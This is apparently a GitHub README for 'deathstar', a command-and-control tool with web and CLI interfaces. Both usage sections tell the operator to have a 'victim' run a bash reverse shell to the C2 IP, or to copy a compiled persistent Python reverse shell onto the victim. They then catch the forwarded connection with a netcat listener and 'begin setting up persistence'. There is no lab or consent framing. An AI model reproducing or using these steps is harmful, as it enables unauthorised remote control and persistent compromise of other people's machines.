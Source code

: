 # deathstar
Build and understand C2 infrastructure.

`Deathstar` has a webpage, or a CLI based C2 connection manager.

`stardestroyer.py` is the "preffered" options to connecting to the C2 server.

`compiler.sh` will compile `stardestroyer.py` into an EXE.

# Web based C2
![image](https://github.com/user-attachments/assets/2276420d-6134-48a0-8e2e-5e6a0ddef95b)

# CLI based C2
![image](https://github.com/user-attachments/assets/e574c863-f44f-47fb-ad8a-7c3148b247e2)

# Download deathstar

```git clone github.com/bwithe/deathstar```

# Web C2 server 
1. Start the server
    - `python3 deathstar-web.py`
2. Open link in web browser
    - `firefox 127.0.0.1:5000`
3. Have Victim connect to C2
    - Linux / MacOS
      - This will drop the moment the C2 server 'drops'
      - `bash -i >& /dev/tcp/<C2-IP>/9999 0>&1`
    - Python reverse shell
      - This will continue to connect to the C2 server even after it 'drops'
      - Modify the 'SERVER_IP = ' in `stardestroyer.py`   
      - `bash compiler.sh stardestroyer.py`
      - Copy `stardestoryer` to VICTIM
      - `chmod +x stardestroyer`
      - `./stardestroyer`
4. Start your listener 
    - `nc -nvlp 4444`
5. Forward the connection to your listener
    - On the webpage, type the IP of the listening device, and then click forward.
6. Catch the connection
    - Once you've caught the connection, begin setting up persistence.
7. Wash, rince, repeat.

# CLI C2 server
1. Start the server
    - `python3 deathstar-term.py`
2. Have Victim connect to C2
    - Linux / MacOS
      - This will drop the moment the C2 server 'drops'
      - `bash -i >& /dev/tcp/<C2-IP>/9999 0>&1`
    - Python reverse shell
      - This will continue to connect to the C2 server even after it 'drops'
      - Modify the 'SERVER_IP = ' in `stardestroyer.py`   
      - `bash compiler.sh stardestroyer.py`
      - Copy `stardestoryer` to VICTIM
      - `chmod +x stardestroyer`
      - `./stardestroyer`
3. Start your listener 
    - `nc -nvlp 4444`
4. Forward the connection to your listener
    - On the CLI, list the connections.
      - Select `2)` to forward.
      - Specify the `ID` of the `VICTIM` you'd like to forward.
      - Then, type the IP of your `LISTENING` device.
5.Catch the connection
    - Once you've caught the connection, begin setting up persistence.
6. Wash, rince, repeat.

